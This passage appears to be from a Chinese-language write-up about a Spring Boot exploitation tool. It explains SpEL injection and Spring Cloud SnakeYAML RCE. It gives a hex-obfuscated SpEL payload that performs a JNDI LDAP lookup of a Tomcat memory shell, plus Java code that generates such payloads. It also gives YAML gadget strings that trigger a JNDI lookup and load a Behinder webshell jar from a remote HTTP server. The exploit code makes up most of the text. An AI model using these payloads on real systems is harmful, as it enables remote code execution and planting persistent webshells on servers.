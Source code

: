 ![image-20211228173906092](https://cdn.jsdelivr.net/gh/SummerSec/Images//6u396ec6u396ec.png)

最终通过不断尝试payload ldap是有效。但这个漏洞利用方式没在工具里集成，是因为SpEL漏洞存在有很多种情况，无法做到考虑完全，如果你发现此漏洞可以用该工具生成Payload打。

```java
Payload 食用方法示例：http://127.0.0.1:9091/article?id=Payload
${new javax.naming.InitialContext().lookup(new String(new byte[]{ 0x6c,0x64,0x61,0x70,0x3a,0x2f,0x2f,0x31,0x32,0x37,0x2e,0x30,0x2e,0x30,0x2e,0x31,0x3a,0x31,0x33,0x38,0x39,0x2f,0x62,0x61,0x73,0x69,0x63,0x2f,0x54,0x6f,0x6d,0x63,0x61,0x74,0x4d,0x65,0x6d,0x53,0x68,0x65,0x6c,0x6c,0x33 }))}
```
payload生成代码：
```java
    public String SpelExpr(String cmd){

        String ldap = "${new javax.naming.InitialContext().lookup(new String(new byte[]{ ";

        StringBuilder sb = new StringBuilder();
        char[] ch = cmd.toCharArray();
        for (int i=0 ; i<ch.length; i++){
            sb.append("0x" + HexUtil.toHex(Integer.valueOf(ch[i]).intValue()));
            if (i != ch.length -1 ){
                sb.append(",");
            }
        }


        ldap += sb.append(" }))}").toString();
        System.out.println(ldap);
        return ldap;

    }
```




### [spring cloud SnakeYAML RCE](https://github.com/LandGrey/SpringBootVulExploit#0x02spring-cloud-snakeyaml-rce)


SnakeYaml RCE处理的比较特殊，一开始尝试转化JNDI的方法测试失败。JNDI注入其实是可以的，后期成功，但有一个问题**POST /refresh**的时候会返回500，但注入是成功的（注入不成功也是，所以是无法很好的判断）。使用check list中的jar方式返回是200。工具里面采用的是jar的方式，会判断是否注入成功。


直接JNDI注入的代码。
```java
String yaml = "!!com.sun.rowset.JdbcRowSetImpl\n" +
    "  dataSourceName: \"ldap://127.0.0.1:1389/basic/TomcatMemShell3\"\n" +
    "  autoCommit: true";
```


服务器远程加载jar，但这里有一个点，生成的jar要符合规范。和传统的打包方式不一样，这里要满足某种规范（具体忘记了）[artsploit/yaml-payload](https://github.com/artsploit/yaml-payload) [Y4er/yaml-payload](https://github.com/Y4er/yaml-payload) 这里给出两个项目参考生成包含内存马jar。
```java
String bytes = "!!javax.script.ScriptEngineManager [\n" +
    "  !!java.net.URLClassLoader [[\n" +
    "    !!java.net.URL [\"http://127.0.0.1:3456/behinder3.jar\"]\n" +
    "  ]]\n" +
    "]\n";
```

